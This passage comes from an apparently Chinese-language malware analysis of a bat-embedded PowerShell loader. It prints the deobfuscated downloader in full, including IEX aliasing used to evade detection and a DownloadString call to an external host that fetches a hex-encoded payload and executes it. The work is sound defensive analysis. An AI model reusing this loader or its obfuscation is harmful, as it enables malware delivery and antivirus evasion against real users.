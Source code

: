 ```
```

这是一段很简单的bat内嵌powershell代码，通过bat脚本隐藏窗口执行powershell代码，执行的代码为红色部分。

大概阅读一下这段powershell代码就可以知道这里是将前面的@符号替换并进行转换然后通过最后的I`E`X加载执行。

所以直接把最后面的I`E`X 更改为echo 然后把这一整段powershell代码抽出来保存到一个ps1文件中：

[![](https://p4.ssl.qhimg.com/t01fde9f862016351bb.png)](https://p4.ssl.qhimg.com/t01fde9f862016351bb.png)

然后powershell窗口执行这个ps1脚本，通过管道输出到新文件中，解码出来的内容如下：

[![](https://p2.ssl.qhimg.com/t01fa3ee4d3976fa1a6.png)](https://p2.ssl.qhimg.com/t01fa3ee4d3976fa1a6.png)

这段代码首先是通过$Tbone=’**EX’.replace(‘**‘,’I’)声明了一个名为$Tbone的变量，这个变量实际就是IEX<br>
接着通过sal M $Tbone给变量定义了别名M，可以看到M在程序最后有使用，这是一种免杀操作。

格式化一下代码如下：

[![](https://p4.ssl.qhimg.com/t01f031f02e9a3a4a37.png)](https://p4.ssl.qhimg.com/t01f031f02e9a3a4a37.png)

```
$Tbone='*EX'.replace('*','I');sal M $Tbone;
do`{`
    $ping = test-connection -comp google.com -count 1 -Quiet
`}`
until($ping);
$p22 = [Enum]::ToObject([System.Net.SecurityProtocolType], 3072);
[System.Net.ServicePointManager]::SecurityProtocol = $p22;
$mv='(N'+'ew'+'-O'+'b'+'je'+'c'+'t '+ 'Ne'+'t.'+'W'+'eb'+'C'+'li'+'ent)'+'.D'+'ow'+'nl'+'oa'+'d'+'S'+'tr'+'ing(''http://topometria.com.cy/A12.jpg'')'|I`E`X;
$asciiChars= $mv -split '-' |ForEach-Object `{`[char][byte]"0x$_"`}`;
$asciiString= $asciiChars -join ''|M
```

代码首先会尝试connection连接google.com保证网络畅通。

当确保网络畅通之后，代码在后面拼接一个对象，用于通过IEX执行一个下载指令，将下载回来的内容存储到变量$mv中，这里的下载链接为: [http://topometria.com.cy/A12[.]jpg](http://topometria.com.cy/A12%5B.%5Djpg)

关于topometria，暂时没有相关的威胁情报。

最后，程序将下载回来的数据$mv 以 – 分割，然后作为byte数组加载执行

[![](https://p1.ssl.qhimg.com/t019156363496e0e607.png)](https://p1.ssl.qhimg.com/t019156363496e0e607.png)

还好，现在样本能够正常下载回来。



## 0x02 下载回来的样本分析

下载回来的文件名为A12.jpg，用编辑器打开可以看到是一段以-分割的数据

[![](https://p4.ssl.qhimg.com/t01233aa35f9bb0a579.png)](https://p4.ssl.qhimg.com/t01233aa35f9bb0a579.png)
